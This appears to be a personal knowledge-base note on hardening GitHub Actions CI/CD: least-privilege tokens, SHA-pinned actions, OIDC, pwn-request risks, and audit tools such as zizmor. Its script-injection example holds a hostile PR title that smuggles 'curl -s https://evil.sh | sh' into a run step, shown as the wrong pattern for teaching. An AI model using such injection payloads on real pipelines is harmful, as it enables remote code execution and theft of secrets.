

# CI-CD - GitHub Actions Security Hardening

> [!info] Deep dive of [[CI-CD]]

> [!abstract] TL;DR
> A workflow runs **third-party code with your secrets and deploy rights**, so treat `.github/workflows/` as production code. The baseline:
> 1. **Token**: `permissions: {}` by default, granted per job.
> 2. **Actions**: **pin every third-party action to a full commit SHA**, with Dependabot/Renovate bumping them.
> 3. **Untrusted input**: never interpolate it into `run:` steps, and never run PR code under `pull_request_target`.
> 4. **Credentials**: **OIDC** instead of long-lived cloud keys, and production behind **environments** with required reviewers.
> 5. **Linting**: lint workflows with `zizmor` + `actionlint` in CI.
>
> 2025–2026 showed repeatedly that version tags (`@v4`) get repointed to malicious commits.

## Concept

### Threat model
| Attack | How | Real example | Primary control |
|---|---|---|---|
| **Compromised action / tag repointing** | Maintainer account or token stolen → tags force-moved to a malicious commit | tj-actions/changed-files (2025-03), trivy-action (2026-03), Mini Shai-Hulud hitting actions-cool (2026-05; re-enabled with poisoned tags 2026-09), semantic-release-action (2026-06) | Full-SHA pins, fewer actions, org allow-list |
| **Script injection** | `${{ github.event.issue.title }}` expanded into a shell command | Widespread; Datadog reported ~38% of orgs with a workflow vulnerable to injection or dangerous triggers | Pass via `env:`, quote, lint |
| **Pwn request** | `pull_request_target` / `workflow_run` checks out and runs fork code with secrets + write token | Many OSS repos, GitHub Security Lab advisories | Don't execute untrusted code in privileged triggers |
| **Over-privileged `GITHUB_TOKEN`** | Default write token lets malicious steps push code, create releases, approve PRs | Lateral movement after action compromise | `permissions:` per job, org default read-only |
| **Long-lived cloud secrets** | Exfiltrated keys work forever | Secrets dumped to logs (tj-actions) | OIDC short-lived credentials, rotate |
| **Cache / artifact poisoning** | Untrusted job writes a cache or artifact consumed by a privileged job | Research PoCs on Actions cache | Separate caches, verify artifacts, no cache in release jobs |
| **Self-hosted runner takeover** | Fork PR runs on a persistent runner inside your network | Public repo + self-hosted = RCE in your LAN | Ephemeral runners, never on public repos |
| **Dependency worms** | npm/PyPI packages steal `NPM_TOKEN`/`GITHUB_TOKEN` at install | Shai-Hulud (2025), Mini Shai-Hulud (2026) | Lockfiles, `npm ci --ignore-scripts` where possible, scoped publish tokens |

## How It Works

- **`GITHUB_TOKEN`**: an installation token scoped to the repo, valid for the job. Its permissions are the intersection of the org/repo default and the `permissions:` key.
- **Fork PRs (`pull_request`)**: they get a read-only token and **no secrets**. That's safe by design, and the reason people misuse `pull_request_target`, which runs in the base repo's context with secrets.
- **OIDC**:
  - The job requests a JWT from GitHub with claims like `sub: repo:org/repo:environment:production`, `ref`, `sha` and `job_workflow_ref`.
  - The cloud trust policy matches those claims and issues short-lived credentials. See [[OAuth 2.0 & OIDC]] and [[JWT]].

## Practical Usage

### Hardened workflow skeleton
```yaml
name: ci
on:
  pull_request:
  push:
    branches: [main]

permissions: {}                       # nothing by default; grant per job

concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: true

jobs:
  test:
    runs-on: ubuntu-24.04
    permissions:
      contents: read
    timeout-minutes: 15
    steps:
      - uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683   # v4.2.2 — full SHA, comment the version
        with:
          persist-credentials: false   # don't leave the token in .git/config for later steps
      - uses: actions/setup-node@39370e3970a6d050c480ffad4ff0ed4d3fdee5af  # v4.1.0
        with: { node-version: 24, cache: npm }
      - run: npm ci --ignore-scripts && npm test

  deploy:
    if: github.event_name == 'push' && github.ref == 'refs/heads/main'
    needs: test
    runs-on: ubuntu-24.04
    environment: production            # required reviewers + "main only" deployment branch policy
    permissions:
      contents: read
      packages: write
      id-token: write                  # OIDC
      attestations: write
    steps:
      - uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683
        with: { persist-credentials: false }
      - run: docker build -t ghcr.io/rarticle/api:${{ github.sha }} . && docker push ghcr.io/rarticle/api:${{ github.sha }}
      - name: Trigger Coolify deploy
        env:
          COOLIFY_TOKEN: ${{ secrets.COOLIFY_DEPLOY_TOKEN }}     # environment secret, scoped API token
        run: curl -fsS -X POST -H "Authorization: Bearer $COOLIFY_TOKEN" "https://coolify.example.my/api/v1/deploy?uuid=${{ vars.COOLIFY_APP_UUID }}&tag=${{ github.sha }}"
```
(The SHAs above are illustrative. Let Dependabot resolve real ones.)

### Script injection: wrong vs right
```yaml
# ❌ Attacker sets PR title to: a"; curl -s https://evil.sh | sh; echo "
- run: echo "Title: ${{ github.event.pull_request.title }}"

# ✅ Expression goes into an env var; the shell sees data, not code
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "Title: $PR_TITLE"
```
- These fields are untrusted: issue/PR titles and bodies, comment bodies, branch names (`github.head_ref`), commit messages, review bodies, and `workflow_run` artifact contents.

### `pull_request_target` done safely (labelling/commenting only)
```yaml
on: pull_request_target
permissions: { pull-requests: write }
jobs:
  label:
    runs-on: ubuntu-24.04
    steps:
      # ✅ No checkout of PR head; act on metadata only
      - uses: actions/labeler@8558fd74291d67161a8a78ce36a881fa63b766a9   # v5.0.0
```
- If you must test fork code with secrets, split it: an untrusted `pull_request` job uploads results, and a separate `workflow_run` job consumes them **as data**, never executing them.

### Dependabot for actions (keeps SHA pins fresh)
```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: github-actions
    directory: /
    schedule: { interval: weekly }
    cooldown: { default-days: 7 }     # don't adopt brand-new releases immediately (gives time for compromise discovery)
    groups:
      actions: { patterns: ["*"] }
```

### OIDC trust (example: AWS role, same idea for GCP/Azure/Vault)
```json
{
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:aud": "sts.amazonaws.com",
      "token.actions.githubusercontent.com:sub": "repo:rarticle/api:environment:production"
    }
  }
}
```
- Bind the trust to the **environment** or a specific ref, never `repo:rarticle/*`. Otherwise any branch or workflow in any repo can assume the role.

### Audit tooling
```bash
pipx run zizmor .github/workflows/          # injection, dangerous triggers, unpinned actions, excessive perms
actionlint                                  # syntax + shellcheck of run: steps
gh api repos/:owner/:repo/actions/permissions   # check allowed actions + default token perms
```

## Patterns & Anti-patterns
| Pattern | When | Anti-pattern to avoid |
|---|---|---|
| `permissions: {}` top-level, per-job grants | Every workflow | Relying on the legacy default write-all token |
| Full-SHA pins + Dependabot `cooldown` | All third-party actions | `@v4` / `@main` tags (repointable). Trusting "verified creator" badges alone |
| Org policy: allow GitHub-owned + allow-listed actions only | Orgs | Any marketplace action allowed |
| `environment: production` with reviewers and branch policy | Deploy jobs | Production secrets as repo-level secrets available to every workflow |
| OIDC with environment-bound `sub` | Cloud deploys | `AWS_ACCESS_KEY_ID` stored for years |
| CODEOWNERS on `.github/` + branch protection/rulesets | Teams, client repos | Anyone with write access editing workflows to exfiltrate secrets |
| Ephemeral GitHub-hosted runners for untrusted code | Public repos | Self-hosted runners attached to public repos |
| Build provenance attestation + deploy by digest | Release pipelines | Rebuilding images during deploy, `latest` tags |

## Performance & Trade-offs
- **SHA pinning cost**: unreadable diffs and manual updates. Fix both with `# vX.Y.Z` comments and grouped Dependabot PRs. That's ~5 min/week of review for a large risk reduction.
- **Fewer actions**: replace trivial third-party actions (e.g. "setup jq", "changed files") with 3-line `run:` scripts. Less supply chain, often faster.
- **Environments with reviewers** add a manual gate. For a solo founder, use them for production only, and let staging auto-deploy.
- **Egress control** (StepSecurity harden-runner or self-hosted ephemeral runners with a firewall) blocks exfiltration but needs allow-list maintenance. Worth it for release/publish jobs.
- **Larger runners / self-hosted on Hostinger**: cheaper minutes, but you own patching and isolation. Ephemeral and per-job only.

## Tips & Reminders
> [!tip]
> - Set the org/repo default to **read-only `GITHUB_TOKEN`**, and disable "Allow GitHub Actions to create and approve pull requests".
> - Turn on secret scanning + push protection, and **rotate immediately** if a secret ever appears in logs. Masking is not a security boundary (base64/reversed strings bypass it).
> - Use `timeout-minutes` on every job: hung jobs burn minutes, and miners love unlimited runners.
> - Keep the `npm publish`/release job separate, minimal, with provenance (`npm publish --provenance`) and a scoped automation token or trusted publishing (OIDC).
> - **In ZP's stack**:
>   - **Pipeline**: GitHub Actions → GHCR image `:sha` → a Coolify deploy webhook with a scoped token stored as a **production environment secret**. Coolify pulls by tag, and production runs only from `main` behind the environment gate.
>   - **Client repos**: add a CODEOWNERS rule for `.github/` and run `zizmor` in CI.

## Version Notes
| Date | Change |
|---|---|
| 2021-10 | OIDC for Actions GA |
| 2023-02 | New repos/orgs default `GITHUB_TOKEN` to read-only |
| 2024 | Artifact attestations (build provenance) GA. Actions cache v2 backend |
| 2025-03 | tj-actions / reviewdog compromise → widespread SHA-pinning push |
| 2025 | Dependabot `cooldown` option. Org policies can require SHA pinning (enforcement setting) |
| 2026 | trivy-action (Mar), Mini Shai-Hulud wave incl. actions-cool (May), tag-repoint attacks (Jun), poisoned actions re-enabled (Sep) |

> [!warning] Unverified — check before relying on this
> The exact availability and naming of the org-level "require SHA pinning" policy, immutable releases for actions, and Dependabot `cooldown` options should be checked in the current GitHub docs/changelog.

## Critical Issues & Gotchas
> [!danger] Version tags are mutable, and attackers know it
> Every 2025–2026 action compromise (tj-actions, trivy-action, actions-cool, semantic-release-action) worked by **moving tags** to a malicious commit, so `@v1` users ran the payload on the next run. In September 2026, compromised actions-cool repos were re-enabled with the poisoned tags still in place. Only workflows pinned to a pre-compromise full SHA were safe. Pin SHAs, audit which actions you use (`grep -rh "uses:" .github/workflows | sort -u`), and rotate secrets for any workflow that ran a compromised version.

> [!danger] `pull_request_target` + checkout of the PR head = repository takeover
> This combination runs attacker code with secrets and a write token. GitHub Security Lab has documented many OSS compromises via this "pwn request" pattern, and `workflow_run` consuming untrusted artifacts is the same bug in a different shape. Treat any such workflow as a critical finding.

> [!warning] Gotchas
> - `actions/checkout` persists the token in `.git/config` by default, where any later step (including compromised actions) can read it. Set `persist-credentials: false`.
> - The `secrets` context isn't available in job-level `if:`. Check for a secret in a step and expose a boolean output instead of echoing anything derived from it.
> - `GITHUB_ENV`/`GITHUB_OUTPUT` writes with untrusted content allow environment injection (e.g. `NODE_OPTIONS`). Sanitize or use delimiters.
> - Reusable workflows inherit nothing unless `secrets: inherit` is used. Avoid `inherit` for third-party reusable workflows.
> - Caches written in the default-branch scope (including by `pull_request_target` workflows) are restorable by every branch. Untrusted code running there can poison caches that release jobs restore, so skip cache restore in release jobs.

## Related
- [[CI-CD]]
- [[Git]] — branch protection, rulesets, signed commits
- [[Docker]] — image builds, digests, SBOM/provenance
- [[Coolify]] — deploy webhooks and API tokens
- [[OAuth 2.0 & OIDC]] / [[JWT]] — OIDC federation claims
- [[Network Security]] — secret handling, egress control

## References
- Security hardening for GitHub Actions: https://docs.github.com/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions
- OIDC in GitHub Actions: https://docs.github.com/actions/security-for-github-actions/security-hardening-your-deployments/about-security-hardening-with-openid-connect
- GitHub Security Lab, preventing pwn requests: https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/
- zizmor: https://github.com/zizmorcore/zizmor
- CrowdStrike on the trivy-action compromise: https://crowdstrike.com/en-us/blog/from-scanner-to-stealer-inside-the-trivy-action-supply-chain-compromise
- The Hacker News, compromised actions re-enabled (2026-09): https://thehackernews.com/2026/09/compromised-github-actions-came-back.html
